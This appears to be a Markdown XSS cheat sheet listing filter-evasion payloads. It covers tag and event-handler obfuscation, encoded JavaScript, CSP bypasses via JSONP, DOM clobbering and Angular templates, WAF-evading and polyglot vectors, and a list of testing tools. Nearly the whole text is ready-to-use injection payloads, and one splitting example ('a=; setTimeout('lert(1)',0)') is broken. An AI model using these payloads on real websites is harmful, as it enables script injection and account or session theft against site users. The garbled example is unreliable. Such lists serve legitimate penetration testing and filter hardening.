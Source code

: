 ### Tag Filtering Bypasses

- Case variation: `<ScRiPt>alert(1)</sCrIpT>`
- Incomplete tags: `<img src=x onerror=alert(1)`
- Unexpected attributes: `<img/src="x"/onerror=alert(1)>`
- Tag breaking: `<svg></svg><script>alert(1)</script>`
- Null character: `<scr%00ipt>alert(1)</script>`

### Event Handler Bypasses

- Case variation: `ONmouseOVER=alert(1)`
- Obfuscation: `on&#x6d;ouseover=alert(1)`
- Quotes variation: `onmouseover=alert(1) onmouseover='alert(1)' onmouseover="alert(1)"`
- Exotic handlers: `onpointerover, onanimationstart, onanimationiteration`
- Spaces: `onmouseover%09=%09alert(1)`

### JavaScript Code Bypasses

- Function alternatives: `alert(1)` → `eval('al'+'ert(1)')`
- Encoding: `eval(String.fromCharCode(97,108,101,114,116,40,49,41))`
- Template literals: `` alert`1` ``
- Unicode escapes: `\u0061\u006c\u0065\u0072\u0074(1)`
- base64: `eval(atob('YWxlcnQoMSk='))`

## Common Protection Mechanisms and Bypasses

### Content Security Policy (CSP) Bypasses

- Misconfigurations: `unsafe-inline`, `unsafe-eval`
- JSONP endpoints: `<script src="/jsonp?callback=alert(1)"></script>`
- DOM clobbering: `<form id=self><input name=innerText value="alert(1)"></form>`
- Angular: `<div ng-app>{{constructor.constructor('alert(1)')()}}</div>`
- iframe sandbox escape: `allow-scripts allow-same-origin`

### WAF/Filter Bypasses

- Multi-encoding: Double URL encoding
- Mixed encoding: Mixing decimal, hex, and HTML entity encoding
- Uncommon syntax: `<img src=x onerror=window['alert'](1)>`
- Splitting vectors: `<img src="x" onerror="a=; setTimeout('lert(1)',0)">`
- Polyglot payloads: `javascript:"/*'/*\/*--><svg onload=alert(1)>//">`

## Testing Tools

- **Burp Suite** - Request interception and modification
- **XSS Hunter** - Blind XSS detection
- **XSSer** - Automated XSS testing
- **DOMPurify Bypass Collection** - Testing sandbox escapes
- **Browser Dev Tools** - DOM inspection and JavaScript debugging
